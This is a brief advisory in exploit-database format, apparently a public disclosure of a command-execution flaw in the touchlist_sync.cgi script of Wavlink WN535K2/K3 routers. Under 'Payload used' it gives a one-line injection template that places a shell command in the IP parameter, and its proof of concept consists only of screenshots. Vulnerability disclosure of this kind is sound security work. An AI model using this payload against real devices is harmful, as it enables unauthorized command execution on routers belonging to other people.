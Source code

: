 ###Wavlink touchlist_sync.cgi command execution

#### Exploit Title

Wavlink touchlist_sync.cgicommand execution

#### Exploit Author

webraybtl@webray.com.cn inc

#### Vulnerability condition

Unlimited front desk

#### Vendor Homepage

https://www.wavlink.com

#### Software Link

https://www.wavlink.com/zh_cn/firmware.html

#### Version

WN535K2/K3

#### Description

There is a command execution vulnerability in wavlink, through which an attacker can gain server privileges

#### Payload used

/cgi-bin/touchlist_sync.cgi?IP=;cmd;

#### Proof of Concept

![image-20220704141147087](./image-20220704141147087.png)

![image-20220720101113802](./image-20220720101113802.png)

![image-20220720101128054](./image-20220720101128054.png)





